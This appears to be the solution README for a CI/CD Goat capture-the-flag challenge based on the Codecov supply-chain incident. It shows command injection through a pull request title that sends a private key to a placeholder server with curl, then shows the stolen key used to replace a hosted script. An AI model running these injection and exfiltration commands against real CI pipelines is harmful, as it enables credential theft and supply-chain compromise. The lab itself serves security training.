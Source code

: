 [![CICD-SEC-8 Ungoverned Usage of 3rd Party Services](https://img.shields.io/badge/CICD--SEC--8-Ungoverned%20Usage%20of%203rd%20Party%20Services-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/ungoverned-usage-of-3rd-party-services/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

[![CICD-SEC-9 Improper Artifact Integrity Validation](https://img.shields.io/badge/CICD--SEC--9-Improper%20Artifact%20Integrity%20Validation-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/improper-artifact-integrity-validation/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

This challenge draws inspiration from the [Codecov incident](https://about.codecov.io/security-update/), in which a 3rd party artifact included in the pipeline is hijacked.

Codecov has a script used in customers’ CI pipelines. The script was hosted separately from its open-sourced code. The script was modified directly where it’s stored (without changing the source code) with malicious code that stole credentials from pipeline jobs.

Pipelines that would have validated the script’s hash against the repository code, would have prevented a successful attack.

In the challenge, Reportcov is a public repository of a 3rd party used by other CI pipelines. It has its own pipeline (which you can’t view), creating an artifact stored remotely. You can execute command injection in the pipeline in order to run malicious code in the job, steal the private key of the server hosting the artifact, and then modify it to exfiltrate credentials from CI pipelines that use the artifact.



1. Fork the _Cov/reportcov_ repository and create an arbitrary change.
2. Create a pull request with the following command as its title:

    ```shell
    `echo "${KEY}" > key && curl -v -F file=@key <YOUR SERVER>`
    ```
    The injection is possible since the following line treats the title as a bash variable and as such it can evaluate command substitution inside.
    
    `sh "echo Pull Request ${title} created in the reportcov repository"`

    GitHub published an [interesting article](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/) about command injection in CI pipelines.

3. Use the private key to upload a malicious _reportcov.sh_ script: 

    ```shell
    echo "${FLAG}" | base64 > reportcov.sh
    chmod 400 key
    scp -P 2222 -i key reportcov.sh root@localhost:/var/www/localhost/htdocs
    ```


4. Run the dormouse pipeline.
5. Access the console output of the executed job to get the secret.
